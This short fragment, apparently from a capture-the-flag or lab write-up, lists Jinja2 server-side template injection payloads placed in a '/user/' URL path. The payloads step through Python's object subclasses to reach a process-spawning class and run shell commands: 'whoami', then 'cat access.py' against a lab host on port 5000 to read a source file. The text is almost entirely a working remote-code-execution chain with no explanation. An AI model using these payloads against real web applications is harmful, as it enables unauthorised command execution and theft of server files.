 1. `/user/{{ ''.__class__.__mro__[1].__subclasses__() }}`
2. `/user/{{ ''.__class__.__mro__[1].__subclasses__()[212] }}`
3. `/user/{{ ''.__class__.__mro__[1].__subclasses__()[212]("whoami", shell=True, stdout=-1).communicate() }}`



http://edoardottt:5000/user/{{ ''.__class__.__mro__[1].__subclasses__()[212]("cat access.py", shell=True, stdout=-1).communicate() }}
